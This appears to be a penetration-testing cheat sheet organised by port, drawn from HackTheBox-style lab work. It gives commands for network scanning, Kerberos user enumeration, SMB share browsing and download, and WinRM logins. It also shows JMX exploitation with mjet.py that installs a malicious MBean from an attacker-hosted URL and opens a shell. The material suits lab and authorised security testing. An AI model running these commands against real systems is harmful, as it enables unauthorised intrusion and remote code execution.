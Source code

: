 ## Initial scan  
Discover the hosts on the network : `nmap -Pn -p- -v 192.168.110.1-255`  
Scan all ports on a host and execute nmap scripts : `nmap -A -p- -v 192.168.110.55`  
  
## Port 88 - Kerberos  
Valid usernames can be discovered by brute force against a Kerberos service. When an invalid username is requested the server will respond using the Kerberos error code KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN, allowing us to determine that the user name was invalid. Valid user names will illicit either the TGT in a AS-REP response or the error KRB5KDC_ERR_PREAUTH_REQUIRED, signaling that the user is required to perform pre authentication.   
<br/>
**Windows - User enumeration:**  
`Rubeus.exe brute /users:<userlist.txt> /domain:spookysec.local /password:yolo /dc:<dc_ip>`  
(One fake password is provided so the accounts are not bruteforced)  
  
**Linux - User enumeration:**  
`./kerbrute_linux_amd64 userenum --domain timelapse.htb --dc 10.10.11.152 /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt`     
<br/>
## Port 135 - MSRPC  
TODO  
  
<br/>
## Port 445 - SMB
**List SMB shares:**  
`smbmap -u "Guest" -H "10.10.11.152"`  
    
**Browse SMB shares:**  
`smbmap -u "Guest" -H "10.10.11.152" -r "IPC$"`    
    
**Download SMB files:**     
`smbmap -u "guest" -H 10.10.11.152 --download "Shares\Dev\winrm_backup.zip"`   
    
<br/> 
## Ports 389,636,3268,3269 - LDAP  
`nmap -n -sV -Pn --script "ldap* and not brute" 10.10.11.174`    
<br/>    
## Ports 5985,5986 - WinRM  
Using Evil-WinRM:    
`gem install evil-winrm`  
`evil-winrm -u Administrator -p 's3cure_PaSsw0rd'  -i <IP>/<Domain>`  
  
Using Powershell:  
`PS> $creds = (New-Object System.Management.Automation.PSCredential('admin',(ConvertTo-SecureString 's3cure_PaSsw0rd!' -AsPlainText -Force)))`   
`PS> Enter-PsSession -ComputerName 10.10.11.174 -Credential $creds`  
  
`PS> Invoke-Command -computername support.htb -ScriptBlock {ipconfig /all} [-credential DOMAIN\username]`

## Port XXXX - Java RMI - JMX
**Command execution:**  
Use mjet.py : https://github.com/mogwailabs/mjet   
JMX is used to manage remote Java resources such as MBeans. If no authentication is configured, it is possible to list the differents MBeans:  
Install jdk and use the `jconsole` binary in `\Java\jdk-18.0.2\bin\jconsole.exe` to access the service.  
it is thus possible to install a malicious MBean and execute commands:  
  
Example commands : `jython mjet.py target.test.com 18051 install tonkabean http://<attacker_IP>:6666 6666`  
`jython mjet.py target.test.com 18051 command tonkabean "id"`  
`jython mjet.py target.test.com 18051 shell tonkabean`  
Uninstall the malicious MBean at the end : `jython mjet.py target.test.com 18051 uninstall`  
